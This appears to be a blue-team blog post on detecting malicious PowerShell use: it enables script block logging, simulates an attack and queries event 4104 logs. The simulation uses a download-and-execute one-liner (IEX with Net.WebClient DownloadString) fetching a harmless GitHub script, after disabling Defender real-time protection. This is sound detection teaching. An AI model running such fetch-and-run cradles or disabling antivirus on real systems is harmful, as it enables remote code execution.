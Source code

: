 ```yaml
---
title: Detecting Malicious Script Execution in PowerShell
date: 2024-05-25 06:00:00 -0600
categories: [blueteam, simulation]
tags: [detection, difficulty:low, prod]
image:
  path: https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/3d7c8a9b-d0d6-4a44-9078-b62956a3ac16
---
```


PowerShell, a powerful Windows command-line shell and scripting language, is often abused by adversaries to execute malicious scripts and commands, one of the most commonly used techniques according to [redcanary](https://redcanary.com/threat-detection-report/techniques/). 

We will explore how attackers leverage PowerShell's capabilities to carry out their intrusions, such as those seen in recent REF4578 intrusions revealed by [Elastic Security Labs](https://www.elastic.co/security-labs/invisible-miners-unveiling-ghostengine) and [Antiy](https://www.antiy.com/response/HideShoveling.html). 
  
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/260b397b-dcba-45d8-bd7b-41347601c406){: .w-75 }
_[@elasticseclabs](https://x.com/elasticseclabs/status/1792932108073132451)_

## Execution in PowerShell
[T1059.001: PowerShell](https://attack.mitre.org/techniques/T1059/001/), This technique is post-exploitation, meaning that the attacker already has access to a machine and will execute their scripts, similar to the approach used in GhostEngine mining attacks.

![image](https://www.elastic.co/security-labs/_next/image?url=%2Fsecurity-labs%2Fassets%2Fimages%2Finvisible-miners-unveiling-ghostengine%2Fimage10.png&w=1920&q=100){: .w-75 }
_Source: Elastic Security Labs **Download and Excecute a PowerShell Script**_

## Collection
Enabling PowerShell logging is crucial for effective detection of malicious activities. By default, Windows has PowerShell logging disabled, which can hinder our ability to monitor and respond to threats. By configuring detailed logging, we can capture information about every script block, module, and command executed in PowerShell.
- Open a PowerShell as **Administrator** and run the following commands
```powershell
$basePath = "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
if (-not (Test-Path $basePath)) { $null = New-Item $basePath -Force }
Set-ItemProperty $basePath -Name EnableScriptBlockLogging -Value "1"
```

## Simulation
For the simulation, we will execute a command line in Cmd to observe how it is logged and detected in lab host. To ensure the commands are executed without interference, we will temporarily disable Windows Defender's real-time protection for testing purposes. This will help us understand the logging process and identify key indicators of potentially malicious activity.
```batch
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/lr2t9iz/PowershellScriptsHub/main/hello_world.ps1');"
```
- Output
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/9ae2ba5a-4234-4957-a83f-51cdaf6718c9)

## Result
To look up for malicious script execution, we will use the following PowerShell command to query the event logs.
```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" `
-FilterXPath '*[System[EventID=4104]]' `
| Where-Object {$_.ToXml().Contains("hello_world")} | fl
```
- Result
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/047213b9-e246-4ad8-9e58-a9db21f0173b)

